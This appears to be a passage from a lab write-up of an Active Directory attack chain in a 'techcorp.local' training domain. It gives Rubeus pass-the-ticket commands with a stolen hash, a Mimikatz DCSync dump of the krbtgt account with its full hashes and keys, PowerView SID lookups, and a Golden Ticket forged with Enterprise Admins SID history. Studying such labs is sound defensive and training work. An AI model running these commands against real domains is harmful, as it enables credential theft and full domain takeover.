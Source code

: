 - First we will need to impersonate the DA in `us.techcorp.local` using `Rubeus` and the stolen NTLM hash of the account.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:Administrator /rc4:43B70D2D979805F419E02882997F8F3F /domain:us.techcorp.local /ptt

<snip>
```
- After that, we will steal the `us\krbtgt` NTLM hash using a DCSync attack through `Mimikatz`.
```powershell
PS C:\Auditor> .\mimikatz.exe

<snip>

mimikatz # lsadump::dcsync /user:us\krbtgt /domain:us.techcorp.local
[DC] 'us.techcorp.local' will be the domain
[DC] 'US-DC.us.techcorp.local' will be the DC server
[DC] 'us\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/4/2019 11:49:17 PM
Object Security ID   : S-1-5-21-210670787-2521448726-163245708-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: b0975ae49f441adc6b024ad238935af5
    ntlm- 0: b0975ae49f441adc6b024ad238935af5
    lm  - 0: d765cfb668ed3b1f510b8c3861447173

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 819a7c8674e0302cbeec32f3f7b226c9

* Primary:Kerberos-Newer-Keys *
    Default Salt : US.TECHCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5
      aes128_hmac       (4096) : 1bae2a6639bb33bf720e2d50807bf2c1
      des_cbc_md5       (4096) : 923158b519f7a454

<snip>
```
- We will also need the SID for the current Domain, as well as that of the EA Group (it is the SID of the Parent Domain extended with `-519`).
```powershell
PS C:\Auditor> ipmo .\PowerView.ps1
PS C:\Auditor> Get-DomainSID -Domain us.techcorp.local
S-1-5-21-210670787-2521448726-163245708
PS C:\Auditor> Get-DomainSID -Domain techcorp.local
S-1-5-21-2781415573-3701854478-2406986946
```
- We can now forge an intra-realm Golden Ticket that will allow us to elevate our privileges to EA.
```powershell
PS C:\Auditor> .\Rubeus.exe golden /rc4:b0975ae49f441adc6b024ad238935af5 /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /user:Administrator /ptt /nowrap

```